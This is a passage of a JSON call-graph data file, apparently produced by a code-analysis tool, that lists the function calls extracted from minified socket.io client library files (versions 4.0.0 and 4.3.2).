"target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onDrain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "probe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onHandshake"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "resetPingTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "filterUpgrades"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "resetPingTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "request"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "request"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasXDR"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onLoad"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onLoad"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onSuccess"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "abort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "attachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "abort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "isView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "uri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "uri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "submit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "uri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodePacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "byteLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 